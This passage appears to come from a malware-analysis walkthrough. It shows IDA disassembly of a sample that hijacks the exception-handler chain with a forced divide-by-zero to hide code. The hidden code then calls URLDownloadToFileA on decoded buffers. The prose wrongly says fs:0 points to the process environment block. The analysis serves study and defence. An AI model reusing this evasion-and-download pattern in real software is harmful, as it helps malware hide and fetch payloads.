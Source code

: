 ```
.text:00401497 loc_401497:                             ; CODE XREF: .text:00401494↑j
.text:00401497                 push    offset loc_4014C0
.text:0040149C                 push    large dword ptr fs:0
.text:004014A3                 mov     large fs:0, esp
.text:004014AA                 xor     ecx, ecx
.text:004014AC                 div     ecx
.text:004014AE                 push    offset aForMoreInforma ; "For more information please visit our w"...
.text:004014B3                 call    printf
.text:004014B8                 add     esp, 4
.text:004014BB                 pop     edi
.text:004014BC                 pop     esi
.text:004014BD                 pop     ebx
.text:004014BE                 pop     ebp
.text:004014BF                 retn
``` 

One thing that stands out is that this code appears to be messing with the process environment block by adding its own code to be picked up by the exception handler when an exception occurs. It then forces an exception by causing a divide by zero, so the code after the `div` instruction doesn't actually execute. Once the exception occurs, the code will jump to 0x4014c0.

Again, the disassembly is broken at this address, so it needs to be fixed up by converting data to code and code to data like we have been doing. The resulting code ends up as the following.

```
.text:004014C0 loc_4014C0:                             ; DATA XREF: .text:loc_401497↑o
.text:004014C0                 mov     esp, [esp+8]
.text:004014C4                 mov     eax, large fs:0
.text:004014CA                 mov     eax, [eax]
.text:004014CC                 mov     eax, [eax]
.text:004014CE                 mov     large fs:0, eax
.text:004014D4                 add     esp, 8
.text:004014D4 ; ---------------------------------------------------------------------------
.text:004014D7                 db 0EBh
.text:004014D8 ; ---------------------------------------------------------------------------
.text:004014D8                 inc     eax
.text:004014DA                 dec     eax
.text:004014DB                 call    $+5
.text:004014E0                 push    ebp
.text:004014E1                 mov     ebp, esp
.text:004014E3                 push    ebx
.text:004014E4                 push    esi
.text:004014E5                 push    edi
.text:004014E6                 push    offset unk_403010
.text:004014EB                 call    sub_401534
.text:004014F0                 add     esp, 4
.text:004014F3                 push    offset unk_403040
.text:004014F8                 call    sub_401534
.text:004014FD                 add     esp, 4
.text:00401500                 push    0
.text:00401502                 push    0
.text:00401504                 push    offset unk_403040
.text:00401509                 push    offset unk_403010
.text:0040150E                 push    0
.text:00401510                 call    URLDownloadToFileA
.text:00401515                 jz      short loc_40151A
.text:00401517                 jnz     short loc_40151A
```

